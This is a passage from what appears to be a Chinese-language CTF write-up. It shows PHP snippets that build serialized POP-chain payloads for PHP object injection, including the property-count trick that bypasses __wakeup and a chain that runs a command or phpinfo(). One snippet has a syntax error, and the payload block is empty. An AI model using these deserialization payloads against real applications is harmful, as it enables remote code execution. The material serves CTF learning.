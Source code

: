 ```php
$a->content = $b;
$b->test = $d;
$d->content = $cmd;
$pop = serialize($c);
$pop = urlencode(preg_replace("/\"Exec\":1/","\"Exec\":2",$pop,1));
echo $pop;

```
成功执行，获取flag<br />![image.png](./images/20231018_0002166251.png)
# poppop
POP链
```php
<?php
class A{
    public $code;
}

class B{
    public $key;

}
class C{
    private $key2;
    function __construct($key)
    {
        $this->key2 = $key
        $this->key2->code="phpinfo();";
    }
}


$a=new A();
$b=new B();
$c=new C($a);
$b->key=$c;
$pop=serialize($b);
echo urlencode(str_replace("\"A\":1","\"A\":2",$pop));
```
payload
```php

```